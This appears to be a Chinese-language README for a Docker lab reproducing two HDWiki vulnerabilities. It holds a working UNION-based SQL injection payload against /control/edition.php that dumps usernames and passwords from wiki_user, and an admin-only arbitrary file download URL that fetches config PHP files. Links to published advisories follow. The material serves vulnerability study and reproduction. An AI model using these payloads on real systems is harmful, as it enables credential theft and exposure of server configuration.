

## 系统安装

```
docker-compose build 
docker-compose up -d
```


## 漏洞一:
/control/edition.php sql注入漏洞

PAYLOAD:
eid[0]=2&eid[1]=19&eid[2]=-3) UNION SELECT 1,2,35,4,5,6,7,8,9,10,user(),username,password,14,15,16,17,18,19 from wiki_user%23


## 漏洞二:
任意文件下载漏洞，此漏洞需要admin权限才能下载
http://127.0.0.1:8002/index.php?admin_db-downloadfile-/**/**/config*php


[引用一](http://0day5.com/archives/2978/)

[引用二](https://www.seebug.org/vuldb/ssvid-91814)

[引用三](http://blog.sina.com.cn/s/blog_6920343901011jmh.html)

[引用四](https://bugs.leavesongs.com/php/hdwiki%E6%B3%A8%E5%85%A5%E5%AF%BC%E8%87%B4%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8B%E8%BD%BD/)

[引用五](https://www.secpulse.com/archives/7852.html)

[引用六](http://www.yunsec.net/a/security/bugs/script/2012/0406/10410.html)

[引用七](https://www.secpulse.com/archives/32842.html)


